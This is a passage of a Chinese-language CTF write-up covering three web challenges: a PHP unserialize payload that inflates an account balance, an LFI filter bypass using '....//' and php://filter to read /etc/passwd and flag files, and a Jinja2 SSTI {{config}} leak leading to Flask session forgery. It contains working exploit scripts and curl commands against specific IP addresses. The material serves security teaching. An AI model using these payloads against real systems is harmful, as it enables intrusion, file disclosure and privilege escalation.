5. ​`if (file_exists('/var/www/flag.php')) { include '/var/www/flag.php'; if (isset($FLAG)) $flag = $FLAG; }`

   这一段才是关键。题目在远端真实环境里很可能会额外放一个 `/var/www/flag.php`​，里面定义真正的 `$FLAG`。也就是说，本地源码里写死的值只是一个默认兜底值，远端如果有独立 flag 文件，就会覆盖它。

这意味着最后判断真假 flag 时，必须以远端回显为准，不能看到源码里有一个 `flag{...}` 就直接提交。

**payload 的构造过程必须完全贴着类定义来**

现在类名和属性结构都已经清楚了，接下来只剩下构造对象。

目标对象应该长这样：

- 类名：`PromoManager`
- ​`promo_code = "VIP666"`
- ​`promo_credit = 100000`

为什么把金额设成 `100000`​ 而不是刚好 `99999`？原因很简单，给自己留一点冗余空间更稳。初始余额是 20，所以最终总额会是：

$$
20 + 100000 = 100020
$$

肯定足够支付 99999 的商品价格。

最稳妥的做法不是手搓序列化字符串，而是在本地用 PHP 生成，这样长度和字段顺序都不会出错。生成方式如下：

```php
<?php
include 'models.php';
echo base64_encode(serialize(new PromoManager('VIP666', 100000)));
?>
```

跑出来的结果是：

```text
TzoxMjoiUHJvbW9NYW5hZ2VyIjoyOntzOjEyOiJwcm9tb19jcmVkaXQiO2k6MTAwMDAwO3M6MTA6InByb21vX2NvZGUiO3M6NjoiVklQNjY2Ijt9
```

为了彻底看懂这个 payload，最好把它对应的原始序列化结构也展开：

```text
O:12:"PromoManager":2:{
    s:12:"promo_credit";i:100000;
    s:10:"promo_code";s:6:"VIP666";
}
```

下面逐段解释每一部分：

- ​`O:12:"PromoManager"`

  ​`O`​ 表示这是一个对象。`12`​ 表示类名长度是 12。类名内容是 `PromoManager`。如果这里类名写错，远端就无法映射到正确的类定义。
- ​`:2:`

  表示对象里有两个属性。
- ​`s:12:"promo_credit";i:100000;`

  ​`s:12`​ 表示属性名是一个长度为 12 的字符串，即 `promo_credit`​。`i:100000`​ 表示它对应的值是整数 `100000`。这部分就是直接控制余额增加量的关键。
- ​`s:10:"promo_code";s:6:"VIP666";`

  ​`promo_code` 这个属性对最终利用不是决定性的，但为了让对象结构完整，按正常业务语义给它一个值更自然。

之后再对这段序列化结果做 Base64 编码，就变成了接口真正需要接收的字符串。

**为什么这个对象一提交就能生效**

这个地方很多人第一次做的时候会问一个问题：`apply_coupon.php`​ 明明只是 `unserialize()` 了一下，也没调用什么方法，为什么余额真的变了？

原因就在于 PHP 对象生命周期的处理方式。`$promo = @unserialize($decoded);`​ 之后，`$promo`​ 已经是一个真实的 `PromoManager`​ 对象。虽然脚本中没有继续显式调用它，但当接口脚本执行完成时，`$promo`​ 离开作用域，对象就会被析构，于是 `__destruct()` 自动执行，最终触发：

```php
$_SESSION['balance'] += intval($this->promo_credit);
```

这正是本题最本质的点：不是调用链劫持，不是文件写入，不是命令执行，就是一个简单但非常致命的“用户可控对象 + 析构副作用”。

如果不用脚本，直接通过 `curl` 就能完整把题目打通。这里把完整过程按实际复现顺序写一遍。

第一步，访问首页并保存 cookie，目的是建立一个合法会话：

```bash
curl -c cookies.txt http://47.99.147.34:23397/
```

这一步很重要，因为服务端只有在会话里不存在 `user_id` 的时候，才会给我们初始化：

- ​`$_SESSION['user_id']`
- ​`$_SESSION['balance'] = 20`

第二步，在同一个 session 中提交优惠券 payload：

```bash
curl -b cookies.txt -c cookies.txt -X POST http://47.99.147.34:23397/api/apply_coupon.php \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "coupon=TzoxMjoiUHJvbW9NYW5hZ2VyIjoyOntzOjEyOiJwcm9tb19jcmVkaXQiO2k6MTAwMDAwO3M6MTA6InByb21vX2NvZGUiO3M6NjoiVklQNjY2Ijt9"
```

预期返回如下：

```json
{"success":true,"message":"Coupon processed."}
```

这里虽然返回值里没有直接告诉你“余额变成多少了”，但这一步其实已经成功把对象塞进去了。只要序列化内容合法，脚本执行结束时析构函数就会给当前 session 加钱。

第三步，再请求一次首页确认余额变化：

```bash
curl -b cookies.txt http://47.99.147.34:23397/
```

此时页面里显示的余额应该变成 `100020`。这个结果和前面的数学推导完全一致：

$$
20 + 100000 = 100020
$$

第四步，继续用同一个 session 购买 `flag`：

```bash
curl -b cookies.txt -X POST http://47.99.147.34:23397/buy.php \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data "item=flag"
```

这一步会成功通过余额校验，并返回包含 flag 的响应。

exp：

```python
import re
import sys
import time

import requests


BASE_URL = "http://47.99.147.34:23397"
PAYLOAD = "TzoxMjoiUHJvbW9NYW5hZ2VyIjoyOntzOjEyOiJwcm9tb19jcmVkaXQiO2k6MTAwMDAwO3M6MTA6InByb21vX2NvZGUiO3M6NjoiVklQNjY2Ijt9"
FLAG_RE = re.compile(r"flag\{[0-9a-fA-F]{32}\}")


def request_with_retry(session: requests.Session, method: str, url: str, **kwargs) -> requests.Response:
    last_error = None
    for _ in range(3):
        try:
            response = session.request(method, url, timeout=15, **kwargs)
            response.raise_for_status()
            return response
        except requests.RequestException as exc:
            last_error = exc
            time.sleep(1)
    raise last_error


def main() -> int:
    session = requests.Session()

    request_with_retry(session, "GET", f"{BASE_URL}/")

    apply_resp = request_with_retry(
        session,
        "POST",
        f"{BASE_URL}/api/apply_coupon.php",
        data={"coupon": PAYLOAD},
    )
    print(f"[+] apply_coupon => {apply_resp.text}")

    refreshed = request_with_retry(session, "GET", f"{BASE_URL}/")
    balance_match = re.search(r'id="balanceDisplay" class="text-lg">(\d+)', refreshed.text)
    print(f"[+] balance => {balance_match.group(1) if balance_match else 'unknown'}")

    buy_resp = request_with_retry(
        session,
        "POST",
        f"{BASE_URL}/buy.php",
        data={"item": "flag"},
    )
    print(f"[+] buy.php => {buy_resp.text}")

    flags = FLAG_RE.findall(buy_resp.text)
    if not flags:
        print("[-] no flag found in response")
        return 1

    print(f"[+] real flag => {flags[0]}")
    return 0


if __name__ == "__main__":
    sys.exit(main())
```

flag ：flag{8a8724d683820183ed433086a61ace51}

### Enterprise_OA

> 题目内容：公司最新上线了OA办公系统入口，据说使用了严密的目录穿越防护机制，你能找到突破口吗？  
> 题目难度：初级  
> 题目分类：WEB  
> 题目分值：250

思路：

**第一步：信息收集**

题目说"严密的目录穿越防护机制"，这一句基本上把考点定到了 LFI（Local File Inclusion，本地文件包含）。题目暗示防护机制是有的，所以重点不是去爆破路径，而是去找它的过滤策略破绽在哪里。

直接访问首页：

```bash
curl -s http://120.27.146.76:26111/
```

返回的 HTML 关键信息如下：

```html
<div class="nav">
    <a href="?module=public_notices.php">Notices</a>
    <a href="?module=about.php">About Us</a>
    <a href="?module=contact.php">Contact</a>
</div>
```

逐句分析：

- 三个链接都通过 `?module=xxx.php`​ 切换页面，这种"通过 query 参数选模块"的写法在 PHP 项目里十之八九是 `include($_GET['module'])`，是经典 LFI 入口。
- 文件名都是 `xxx.php` 结尾，没有写死后缀，意味着我们可以传任意文件名进去。

到这一步可以基本确认：进站点的方式是 `?module=`，目标就是把它指向我们想要的文件。

**第二步：触发并观察过滤行为**

直接拿教科书的 `../../../../etc/passwd` 试一下：

```bash
curl -s "http://120.27.146.76:26111/?module=../../../../etc/passwd"
```

返回：

```text
Warning: include(etc/passwd): failed to open stream: No such file or directory
in /var/www/html/index.php on line 30

Warning: include(): Failed opening 'etc/passwd' for inclusion
(include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 30
```

这条报错信息一次给了我们三件事：

- 后端确实是 `include(...)`，确认了 LFI 入口。
- 报错里的路径变成了 `etc/passwd`​，原本传进去的 4 个 `../`​ 全没了。说明服务端做了过滤，把 `../` 全部替换成了空字符串。
- 顺带泄露了脚本绝对路径 `/var/www/html/index.php`，后续读源码可以用上。

到这一步策略就明确了：先把 `index.php` 源码读出来，搞清楚过滤逻辑，再针对性绕过。

**第三步：用 php 伪协议读源码**

​`include()`​ 默认会执行 PHP 文件，直接读 `index.php`​ 会被解析成 HTML 看不到源码。这种场景下最稳的做法是用 PHP 内置的伪协议 `php://filter`​，把内容转成 base64 后再丢给 `include`​，这样里面的 `<?php ... ?>` 标签会被当成普通字符做 base64 编码，最终输出在页面上：

```bash
curl -s "http://120.27.146.76:26111/?module=php://filter/convert.base64-encode/resource=index.php"
```

页面里出现了一长串 base64：

```text
PD9waHAKJG1vZHVsZSA9IGlzc2V0KCRfR0VUWydtb2R1bGUnXSkgPyAkX0dFVFsnbW9kdWxlJ10gOiAncHVi
bGljX25vdGljZXMucGhwJzsKJG1vZHVsZSA9IHN0cl9yZXBsYWNlKCcuLi8nLCAnJywgJG1vZHVsZSk7Cj8+
... (后面是 HTML 模板部分，不重要)
```

解码出来的关键 PHP 部分：

```php
<?php
$module = isset($_GET['module']) ? $_GET['module'] : 'public_notices.php';
$module = str_replace('../', '', $module);
?>
```

这段就是题目所说的"严密的目录穿越防护机制"。逐行拆解：

- ​`$module = isset($_GET['module']) ? $_GET['module'] : 'public_notices.php';`​  
  从 GET 拿到 `module`​ 参数；如果没传就默认 `public_notices.php`。
- ​`$module = str_replace('../', '', $module);`​  
  把字符串里所有 `../` 一次性替换成空字符串。

这一行就是漏洞核心。`str_replace` 的几个致命特性必须看清楚：

- 它是一次性扫描，扫到一个 `../` 就吃掉一个，扫完就结束。
- 它不会对替换之后剩下的字符串再扫一遍。

所以只要构造一个字符串，让它在被 `str_replace('../', '', ...)`​ 处理一遍之后还能剩下 `../`，就能绕过这一层过滤。这是最经典的 PHP 字符串过滤旁路：

- 输入 `....//`
- ​`str_replace`​ 从左往右扫，匹配到中间的 `../`，把它替换成空。
- 替换完剩下 `..//`​，再被 PHP 的 `include`​ 当作路径解析时，多余的 `/`​ 会被合并，等价于 `../`

也就是说每写一个 `....//`​，过滤完之后会还原成一个 `../`，目录穿越就回来了。

**第四步：构造目录穿越 payload**

为了知道要往上跳几层，把绝对路径捋一下：

- 当前脚本：`/var/www/html/index.php`
- 跳到 `/etc/passwd`​ 需要从 `/var/www/html/` 上跳 3 层

所以 payload 写 3 个 `....//`​ 就够，但写 4 个或更多也无所谓，多余的 `../` 会停在根目录上不会再往上跳。这里写 3 个：

```bash
curl -s "http://120.27.146.76:26111/?module=....//....//....//etc/passwd"
```

返回：

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
```

​`/etc/passwd` 成功读出来，绕过完成，目录穿越通道打开了。

**第五步：定位 flag 文件**

CTF 题里 flag 通常放在以下几个位置之一：

- 根目录 `/flag`​ `/flag.txt`​ `/flag.php`
- ​`/tmp/flag*`
- ​`/root/flag*`
- 站点目录里 `flag*`

直接用同样的 payload 试 `/flag`：

```bash
curl -s "http://120.27.146.76:26111/?module=....//....//....//flag"
```

返回 `failed to open stream: No such file or directory`​，说明 `/flag` 不存在。

继续试 `/flag.txt`​。这里有一个细节要小心：如果直接 `include()`​ 一个非 PHP 的纯文本文件，PHP 是会原样输出文件内容的。但有些 flag 文件里可能带 `<`​ 这种字符，原样输出后会被浏览器当成 HTML 标签吞掉一部分。最稳的做法仍然是套上 `php://filter` 转 base64，避免任何字符在传输或渲染层被吃掉：

```bash
curl -s -i "http://120.27.146.76:26111/?module=php://filter/convert.base64-encode/resource=....//....//....//flag.txt"
```

​`-i`​ 用来同时打印响应头方便观察请求是否成功。返回的页面里 `<div class="content">` 部分多出一段：

```text
ZmxhZ3szY2ZhNTUyOTEzNmI2MTViNTY0NDZhODMyM2I4MGViZX0K
```

这就是 `/flag.txt` 的 base64 编码内容。解码：

```python
import base64
print(base64.b64decode("ZmxhZ3szY2ZhNTUyOTEzNmI2MTViNTY0NDZhODMyM2I4MGViZX0K").decode())
```

得到：

```text
flag{3cfa5529136b615b56446a8323b80ebe}
```

**完整 EXP**

```python
import base64
import re
import requests

URL = "http://120.27.146.76:26111/"
PAYLOAD = "php://filter/convert.base64-encode/resource=....//....//....//flag.txt"

r = requests.get(URL, params={"module": PAYLOAD}, timeout=15)
body = re.search(r'<div class="content">\s*(.+?)\s*</div>', r.text, re.S)
b64 = body.group(1).strip()
print(base64.b64decode(b64).decode().strip())
```

```text
flag{3cfa5529136b615b56446a8323b80ebe}
```

flag ：flag{3cfa5529136b615b56446a8323b80ebe}

### TaxSystem_SSTI

> 题目内容：一款为企业客户提供年度税务清算和申报的系统，听说系统最近在迁移数据。  
> 题目难度：初级  
> 题目分类：WEB  
> 题目分值：350

思路：

**先看附件，先定攻击方向**

拿到题目之后，第一件事不是盲打，而是先拆附件。题目名已经明确提示了 `SSTI`，并且源码是 Flask 项目，所以优先怀疑的是 Jinja2 模板注入。解压附件：

解压后可以看到几个关键文件：

- ​`app.py`：主程序，路由逻辑都在这里
- ​`config.py`​：应用配置，通常和 `SECRET_KEY` 有关
- ​`init_db.py`：数据库初始化脚本，常常能看到默认账号、初始数据、flag 存储位置
- ​`templates/`：前端模板

看到这套结构以后，基本可以确定这道题的分析顺序应该是：

1. 先看 `config.py`​ 和 `init_db.py`，摸清应用密钥、数据库结构、默认用户
2. 再看 `app.py`，找出所有和模板渲染、数据导入、权限校验相关的路由
3. 定位 SSTI 注入点以后，不急着想 RCE，先看能不能走信息泄露
4. 如果能拿到 Flask 的 `SECRET_KEY`，就可以进一步伪造 session，最后进入高权限路由取 flag

这道题最后也确实就是这样一条利用链。

**先审 config.py，确认密钥来源**

完整源码如下：

```python
import os

class Config:
    SECRET_KEY = os.environ.get('SECRET_KEY', 'this_is_a_very_secret_key_for_tax_system_2026')
    DATABASE = '/var/lib/sqlite/tax.db'
```

这里必须逐行看清楚：

- ​`import os`  
  说明配置值可能来自系统环境变量。
- ​`class Config:`  
  Flask 用类对象加载配置是一种很常见的写法。
- ​`SECRET_KEY = os.environ.get('SECRET_KEY', 'this_is_a_very_secret_key_for_tax_system_2026')`​  
  这一行非常关键。它的意思不是“程序一定使用 `this_is_a_very_secret_key_for_tax_system_2026` 作为密钥”，而是：

  - 如果系统环境里存在 `SECRET_KEY`，那么运行时优先使用环境变量里的值
  - 只有环境变量不存在时，才回退到源码里的默认值
- ​`DATABASE = '/var/lib/sqlite/tax.db'`​  
  指明数据库文件位置，后面看 `init_db.py`​ 和 `app.py` 时就能对上。

这一段分析会直接影响后续利用。因为很多人看到源码里写了默认 `SECRET_KEY`，就会直接拿它去伪造 session。但这个题的实际运行环境明显是设置了环境变量的，所以源码里的默认值只是兜底值，不一定是线上真实值。真正的运行时密钥必须通过信息泄露拿到，而不能只靠静态源码猜。

**再审 init_db.py，确认账号、角色、flag 存储位置**

完整源码如下：

```python
import sqlite3
import os

db_path = '/var/lib/sqlite/tax.db'
if os.path.exists(db_path):
    os.remove(db_path)

conn = sqlite3.connect(db_path)
cur = conn.cursor()

cur.execute('''
CREATE TABLE users (
    id INTEGER PRIMARY KEY,
    username TEXT,
    password TEXT,
    role TEXT
)
''')
cur.execute('''
CREATE TABLE profiles (
    id INTEGER PRIMARY KEY,
    user_id INTEGER,
    year INTEGER,
    income INTEGER,
    deductions INTEGER,
    state TEXT,
    custom_footer TEXT
)
''')
cur.execute('''
CREATE TABLE config_flags (
    flag TEXT
)
''')

cur.execute('INSERT INTO users (username, password, role) VALUES ("admin", "123456", "admin")')
cur.execute('INSERT INTO config_flags (flag) VALUES ("flag{xxxxxxxxxxxxxxxx}")')

cur.execute('INSERT INTO profiles (user_id, year, income, deductions, state, custom_footer) VALUES (1, 2025, 65000, 12000, "SUBMITTED", "Standard Confidential Footer")')

conn.commit()
conn.close()
```

这一段信息量很大，也要逐步拆开：

- ​`db_path = '/var/lib/sqlite/tax.db'`​  
  和 `config.py`​ 里的 `DATABASE` 对应上了，说明应用的确用这份 SQLite 数据库。
- ​`if os.path.exists(db_path): os.remove(db_path)`  
  说明这是初始化脚本，每次执行会重建数据库。
- ​`CREATE TABLE users (...)`​  
  用户表里只有四个字段：`id`​、`username`​、`password`​、`role`。这意味着后面登录逻辑大概率就是直接查这张表。
- ​`CREATE TABLE profiles (...)`  
  这里出现了几个后面会被利用的核心字段：

  - ​`state`
  - ​`custom_footer`
- ​`CREATE TABLE config_flags (flag TEXT)`  
  说明 flag 是单独存放在数据库表里的，而不是写死在模板或源码中。
- ​`INSERT INTO users (username, password, role) VALUES ("admin", "123456", "admin")`​  
  这里直接给出了默认账号密码：`admin / 123456`​。  
  同时还能看到这个账号的角色是 `admin`​，不是 `tax_inspector`​。这一点很关键，因为最后金库路由需要的是 `tax_inspector` 角色。
- ​`INSERT INTO config_flags (flag) VALUES ("flag{xxxxxxxxxxxxxxxx}")`  
  这里的 flag 只是源码里的占位值，不是线上真实 flag。真正远程环境里的数据库内容显然已经换成比赛实例自己的 flag 了。
- ​`INSERT INTO profiles (...) VALUES (..., "SUBMITTED", "Standard Confidential Footer")`​  
  初始化时已经给用户 `1`​ 放了一条 profile 记录，状态是 `SUBMITTED`​。这说明系统里存在多种 `state`，而且不同状态很可能走不同渲染逻辑。

到这里，题目的整体轮廓已经出来了：

- 存在一个弱口令账号 `admin / 123456`
- 存在角色字段 `role`
- flag 在数据库里
- ​`profiles`​ 表中的 `state`​ 和 `custom_footer` 极可能与题目名里的 SSTI 有关

**开始审 app.py：先看登录和基础流程**

登录路由完整源码如下：

```python
@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('username')
    password = request.form.get('password')
    db = get_db()
    user = db.execute('SELECT * FROM users WHERE username = ? AND password = ?', (username, password)).fetchone()
    if user:
        session['user_id'] = user['id']
        session['role'] = user['role']
        return redirect(url_for('dashboard'))
    return render_template('login.html', error='Invalid credentials')
```

这一段需要注意的点有三个：

- 登录方式非常直接，就是把表单里的 `username`​ 和 `password` 拿出来查数据库
- SQL 使用了参数化占位符 `?`，这里不是 SQL 注入点
- 登录成功后，直接把 `user_id`​ 和 `role`​ 写进了 Flask 的 `session`

这说明系统的权限判断大概率都依赖 session 里的 `role` 字段。只要后面能伪造 session，这个系统的角色鉴权就会被整体绕过。

再看创建 profile 的接口：

```python
@app.route('/api/create_profile', methods=['POST'])
def create_profile():
    if 'user_id' not in session: return jsonify({'status': 'error', 'message': 'unauthorized'}), 401
    db = get_db()
    db.execute('INSERT INTO profiles (user_id, year, income, deductions, state, custom_footer) VALUES (?, 2026, 0, 0, "DRAFT", "Internal Tax System Standard Footer")', (session['user_id'],))
    db.commit()
    return redirect(url_for('dashboard'))
```

这里的作用也很清楚：

- 必须先登录
- 系统会为当前用户新建一条 profile
- 新建出来的默认状态是 `DRAFT`
- 默认 `custom_footer` 是一段普通文本

这一步本身没有漏洞，但它为后续利用提供了一个受我们控制的新 profile 记录。

**继续审 app.py：导入接口是第一个关键点**

​`/api/import` 的完整源码如下：

```python
@app.route('/api/import', methods=['POST'])
def import_data():
    if 'user_id' not in session: return jsonify({'status': 'error', 'message': 'unauthorized'}), 401
    data = request.json
    profile_id = data.get('profile_id')
    import_data = data.get('data', {})
  
    db = get_db()
    profile = db.execute("SELECT * FROM profiles WHERE id = ? AND user_id = ?", (profile_id, session['user_id'])).fetchone()
    if not profile: return jsonify({'status': 'error', 'message': 'not found'}), 404
  
    allowed_fields = ['income', 'deductions', 'state', 'custom_footer', 'year']
    updates = []
    params = []
    for k, v in import_data.items():
        if k in allowed_fields:
            updates.append(f"{k} = ?")
            params.append(v)
          
    if updates:
        params.extend([profile_id, session['user_id']])
        db.execute(f"UPDATE profiles SET {', '.join(updates)} WHERE id = ? AND user_id = ?", params)
        db.commit()
  
    return jsonify({"status": "success"})
```

这一段是第一处真正能利用的地方，逐行看漏洞点：

- ​`if 'user_id' not in session ...`  
  还是登录后才能调用。
- ​`data = request.json`  
  说明这是一个 JSON 接口。
- ​`profile_id = data.get('profile_id')`  
  前端可以指定要更新哪一条 profile。
- ​`profile = db.execute(... user_id = ? ...)`  
  后端确保只能更新自己的 profile，这里没有越权写别人数据的问题。
- ​`allowed_fields = ['income', 'deductions', 'state', 'custom_footer', 'year']`​  
  这行是关键。系统允许通过导入接口修改 `state`​ 和 `custom_footer`。
- ​`for k, v in import_data.items(): if k in allowed_fields: ...`  
  只要字段名在白名单里，值就会被直接更新进数据库。
- ​`db.execute(f"UPDATE profiles SET {', '.join(updates)} WHERE id = ? AND user_id = ?", params)`  
  虽然这里用的是 f-string 拼 SQL，但拼进去的是已经白名单限制过的字段名，值仍然走参数化，所以这里也不是 SQL 注入点。

真正的问题在于：

- 系统允许用户自己改 `state`
- 系统允许用户自己改 `custom_footer`
- 没有任何业务校验去限制 `state` 的合法流转
- 没有任何输入过滤去限制 `custom_footer` 的内容

这意味着我们可以主动把一条普通 profile 改造成适合触发 SSTI 的状态，而不需要等什么审批流程。

**继续审 app.py：预览接口就是 SSTI 的真正注入点**

​`/preview/[int:profile_id](images/int-profile_id)` 的完整源码如下：

```python
@app.route('/preview/<int:profile_id>')
def preview(profile_id):
    if 'user_id' not in session: return redirect(url_for('index'))
    db = get_db()
    profile = db.execute("SELECT * FROM profiles WHERE id = ? AND user_id = ?", (profile_id, session['user_id'])).fetchone()
    if not profile: return "Not Found", 404
  
    state = profile['state']
  
    if state == 'AUDIT_PENDING':
        custom_footer = profile['custom_footer']
        blacklist = ['__', '[', ']', '|', '\\', '+', "'", '"', 'request', 'session', 'url_for', 'popen', 'system']
        for word in blacklist:
            if word in custom_footer:
                return "Security Policy Violation: Blocked character or word detected in footer.", 403
              
        template_html = f"""
        <!DOCTYPE html>
        <html lang="en">
        <head>
            <meta charset="UTF-8">
            <title>Audit Report</title>
            <link href="https://cdn.jsdelivr.net/npm/tailwindcss@2.2.19/dist/tailwind.min.css" rel="stylesheet">
            <style>
                body {{ background-color: #f3f4f6; }}
            </style>
        </head>
        <body class="p-10">
            <div class="max-w-4xl mx-auto bg-white p-8 border-t-8 border-red-600 shadow-xl rounded">
                <div class="flex justify-between items-center mb-6 border-b pb-4">
                    <h1 class="text-3xl font-bold text-gray-800">OFFICIAL AUDIT REP或T</h1>
                    <span class="px-4 py-1 bg-red-100 text-red-800 rounded-full font-semibold">CONFIDENTIAL</span>
                </div>
                <div class="grid grid-cols-2 gap-6 mb-8 text-lg">
                    <div><span class="font-bold text-gray-600">Tax Year:</span> {profile['year']}</div>
                    <div><span class="font-bold text-gray-600">状态: </span> <span class="text-red-600 font-bold">AUDIT PENDING</span></div>
                    <div><span class="font-bold text-gray-600">Declared Income:</span> ${profile['income']}</div>
                    <div><span class="font-bold text-gray-600">Deductions:</span> ${profile['deductions']}</div>
                </div>
                <div class="mt-12 pt-6 border-t border-gray-200 text-sm text-gray-500 italic text-center">
                    {custom_footer}
                </div>
            </div>
            <div class="mt-8 text-center"><a href="/dashboard" class="px-6 py-2 bg-gray-800 text-white rounded hover:bg-gray-700 transition">返回控制台</a></div>
        </body>
        </html>
        """
        try:
            return render_template_string(template_html)
        except Exception as e:
            return str(e), 500
    else:
        return f"""
        <!DOCTYPE html>
        <html lang="en">
        <head>
            <meta charset="UTF-8">
            <title>Standard Preview</title>
            <link href="https://cdn.jsdelivr.net/npm/tailwindcss@2.2.19/dist/tailwind.min.css" rel="stylesheet">
            <style>
                body {{ background: #f8fafc; font-family: system-ui, -apple-system, sans-serif; }}
                .glass {{ background: rgba(255, 255, 255, 0.7); backdrop-filter: blur(10px); }}
            </style>
        </head>
        <body class="min-h-screen flex items-center justify-center p-4">
            <div class="glass w-full max-w-lg p-8 rounded-2xl shadow-lg border border-gray-100 text-center">
                <h2 class="text-2xl font-bold text-gray-800 mb-4">Standard Draft Preview</h2>
                <div class="bg-gray-50 p-4 rounded-lg mb-6 text-left">
                    <p class="mb-2"><span class="font-semibold text-gray-600">Income:</span> ${profile['income']}</p>
                    <p><span class="font-semibold text-gray-600">Current State:</span> {state}</p>
                </div>
                <p class="text-gray-500 text-sm mb-6">
                    Note: Your profile is currently in <span class="font-bold">{state}</span> state. 
                    Only <span class="font-bold text-red-500">AUDIT_PENDING</span> profiles receive the official formatted PDF report rendering engine.
                </p>
                <a href="/dashboard" class="inline-block px-8 py-3 bg-blue-600 text-white font-semibold rounded-xl hover:bg-blue-700 transition shadow-md hover:shadow-lg">Back to Dashboard</a>
            </div>
        </body>
        </html>
        """
```

这一段必须看得非常细，因为题目的核心漏洞几乎都在这里：

- ​`if 'user_id' not in session ...`  
  还是要先登录。
- ​`profile = db.execute(... id = ? AND user_id = ? ...)`  
  只能预览自己的 profile，这没问题。
- ​`state = profile['state']`  
  先取出状态字段。
- ​`if state == 'AUDIT_PENDING':`​  
  这行非常关键。只有当状态被改成 `AUDIT_PENDING` 时，程序才会进入下面这段“官方审计报告渲染引擎”。
- ​`custom_footer = profile['custom_footer']`  
  取出用户可控的 footer 内容。
- ​`blacklist = ['__', '[', ']', '|', '\\', '+', "'", '"', 'request', 'session', 'url_for', 'popen', 'system']`  
  这里是题目故意加的一层黑名单防护。
- ​`for word in blacklist: if word in custom_footer: ...`  
  只要用户输入里包含这些字符或关键字之一，就会返回 403。
- ​`template_html = f""" ... {custom_footer} ... """`​  
  这行是最致命的。程序先用 Python 的 f-string 把 `custom_footer` 拼接进 HTML 模板字符串。
- ​`return render_template_string(template_html)`  
  然后再把这整段拼好的字符串交给 Jinja2 渲染。

问题就出在这里：

​`custom_footer`​ 并不是作为普通文本安全插入模板，而是先被字面拼进模板源码，然后再整体送给 Jinja2 解释执行。只要 `custom_footer`​ 中出现 `{{...}}` 这样的模板表达式，Jinja2 就会把它当作代码求值。

这就是非常标准的 SSTI。

**为什么 payload 要构造成**  **​`{{config}}`​** 

这一题的黑名单封掉了很多常规 SSTI 利用链：

- ​`__`​ 被禁，经典的 `__class__`​、`__mro__`​、`__subclasses__` 都走不通
- ​`[`​ 和 `]` 被禁，常规下标访问链也走不通
- ​`|`​ 被禁，很多 `attr` filter 的绕法也走不通
- 单引号、双引号、加号被禁，字符串拼接会变得很难写
- ​`request`​、`session`​、`url_for`​、`popen`​、`system` 这些常见入口或危险函数名也被禁了

到这一步，如果继续强行往 RCE 上凿，成本就很高，而且未必是预期解。更合理的做法是回到 Flask/Jinja2 的默认渲染上下文，看看有没有黑名单没拦住、又足够敏感的对象。

这里最合适的就是 `config`。

原因很简单：

- ​`config` 不在黑名单里
- ​`config` 不需要引号、不需要下标、不需要双下划线
- ​`{{config}}` 这个 payload 本身非常短，不包含任何被禁字符
- Jinja2 渲染 `config`​ 对象时，会把当前 Flask 配置项整体显示出来，其中就包括 `SECRET_KEY`

因此，最优 payload 不是命令执行，而是：

```jinja2
{{config}}
```

这个 payload 为什么能通过黑名单，可以逐个对照：

- 不含 `__`
- 不含 `[`​、`]`
- 不含 `|`
- 不含反斜杠
- 不含加号
- 不含单引号、双引号
- 不含 `request`
- 不含 `session`
- 不含 `url_for`
- 不含 `popen`
- 不含 `system`

所以它一定能过过滤。

**这里的渲染过程要单独说明清楚**

如果把 `custom_footer`​ 设成 `{{config}}`，程序的执行过程实际上分两层：

第一层是 Python 的 f-string 拼接：

```python
template_html = f"""
...
<div>
    {custom_footer}
</div>
...
"""
```

这一步执行以后，`template_html` 的实际内容会变成：

```html
<div>
    {{config}}
</div>
```

第二层才是 Jinja2 渲染：

```python
render_template_string(template_html)
```

Jinja2 看到 `{{config}}`，就会去求值，然后把 Flask 当前运行环境中的配置对象输出出来。

所以这里不是“用户输入直接显示”，而是“用户输入先进入模板源码，再被模板引擎解释执行”。这就是为什么 payload 能生效。

**最后审 app.py：金库路由决定了最终怎么取 flag**

​`/admin/vault` 的完整源码如下：

```python
@app.route('/admin/vault')
def admin_vault():
    if session.get('role') != 'tax_inspector':
        return render_template_string("""
        <div style="text-align:center; margin-top:100px; font-family:sans-serif;">
            <h1 style="color:red;">Unauthorized Access</h1>
            <p>You must be a <b>tax_inspector</b> to access this vault.</p>
            <a href="/dashboard">Back</a>
        </div>
        """), 403
    db = get_db()
    flag = db.execute("SELECT flag FROM config_flags LIMIT 1").fetchone()
    return render_template('admin.html', flag=flag['flag'] if flag else "No flag found")
```

逐行分析它的意义：

- ​`if session.get('role') != 'tax_inspector':`​  
  只要 session 里的 `role`​ 不是 `tax_inspector`，就直接拒绝访问。
- 这个判断没有去数据库二次校验当前用户真实身份，也没有重新查询 `users` 表确认角色。
- 它完全信任客户端提交上来的 session 内容，只要签名合法就认。
- ​`flag = db.execute("SELECT flag FROM config_flags LIMIT 1").fetchone()`​  
  通过权限校验后，程序直接从 `config_flags` 表里取 flag。
- ​`return render_template('admin.html', flag=flag['flag'] if flag else "No flag found")`  
  再把 flag 显示到模板页面中。

这里就把整条链闭合了：

- ​`admin / 123456`​ 只能登录，但它的 `role`​ 是 `admin`
- 金库要求的是 `tax_inspector`
- 如果能拿到 Flask 的 `SECRET_KEY`​，就能自己伪造一个 `role=tax_inspector` 的 session
- 一旦 session 签名合法，后端就会无条件信任，从而放行 `/admin/vault`

**完整攻击链到这里已经非常清晰**

整个题的利用顺序可以整理成下面这几步：

1. 用 `admin / 123456` 登录系统
2. 通过 `/api/create_profile` 新建一条属于自己的 profile
3. 通过 `/api/import`​ 把 profile 的 `state`​ 改成 `AUDIT_PENDING`
4. 同时把 `custom_footer`​ 改成 `{{config}}`
5. 访问 `/preview/<id>`​ 触发 Jinja2 渲染，泄露运行时 `SECRET_KEY`
6. 使用泄露出来的真实 `SECRET_KEY` 伪造 Flask session
7. 将伪造后的 session 中 `role`​ 改成 `tax_inspector`
8. 访问 `/admin/vault`，读取数据库中的真实 flag

**实际利用过程**

先登录：

```bash
curl -i -c cookies.txt -X POST "http://47.99.147.34:16610/login" \
  -d "username=admin&password=123456"
```

这一步如果成功，会返回 `302`​ 跳转到 `/dashboard`​，同时服务器下发一个 `session` cookie。这里不需要手工解 session，只要能保持登录态即可。

然后创建 profile：

```bash
